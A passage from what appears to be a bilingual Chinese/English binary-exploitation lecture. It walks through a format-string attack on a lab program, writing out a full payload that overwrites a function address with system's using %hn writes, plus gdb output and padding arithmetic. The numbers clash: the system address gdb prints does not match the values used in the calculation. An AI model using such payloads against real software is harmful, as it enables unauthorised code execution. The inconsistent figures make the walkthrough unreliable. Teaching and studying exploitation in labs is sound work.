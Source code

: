 ```shell
./string `python -c 'import struct; print "sh;#" + struct.pack("<I", <SOME_ADDRESS>) + struct.pack("<I", <SOME_ADDRESS>) +"%<SOME_VALUE>x%11$hn%<SOME_VALUE>x%12$hn"'` 
```

​	11 和 12 是我的 `buf` 到 `printf` 的 offset 。在你的环境中有可能会有所不同。你只需要的不是copy，是理解概念。

​	到目前，我们拿到了我们要修改为 `system` 函数的真实地址的函数的offset， 

We now have the offset on which we will write our address of `system` function in two parts, but we know that `%hn` will the number of characters printed with `printf` we have to print `len(address(system))` length of garbage. 

​	但又由于在这个例子中我们的字符串尺寸受到限制，我们无法直接这样构造。这里，我们需要接着 `%x` 格式化占位符。`%(n)x` 可以在字符串前面 打印 `(n)` 个空格，而不会额外增加字符串的尺寸。

Since our string is limited in size, we cant do that as well. For that we need to take help from the `%x` format specifier. `%(n)x` format specifier will print `(n)` number of spaces in the output but will not increase the size of input string. :cool:



​	最终的paylaod 看起来像这样：

``./string `python -c 'import struct; print "sh;#" + struct.pack("<I", 0x804a010) + struct.pack("<I", 0x804a012) +"%10948x%11$hn%13068x%12$hn"'` ``

​	接着，来看我是如何拿到 system 的真实地址的：

```bash
$ gdb -q ./string
gef➤  b main
Breakpoint 1 at 0x804854f
gef➤  r
Starting program: /vagrant/Lecture6/string

Breakpoint 1, 0x0804854f in main ()

gef➤  p system
$1 = {<text variable, no debug info>} 0x555c2da0 <system>
```

​	现在，我们已经拿到哦了 `system` 的地址，现在需要把它转换一下格式以适用于 `%(n)x` 。需要两步：

​	Now we have the address of `system` we now need to covert this address to the count for `%(n)x`. And that we will do in two parts.

```python
>>> 0x2ad0 - 12
10948
>>> 0x555c - 0x2250
13068
```

​	得到的这两段就是目标地址转换后的值，作为 `%x` 中的值 `n`。

​	This 2-split address that we calculated with `python` will be the value for `n` in `%x`.



#### Final words.
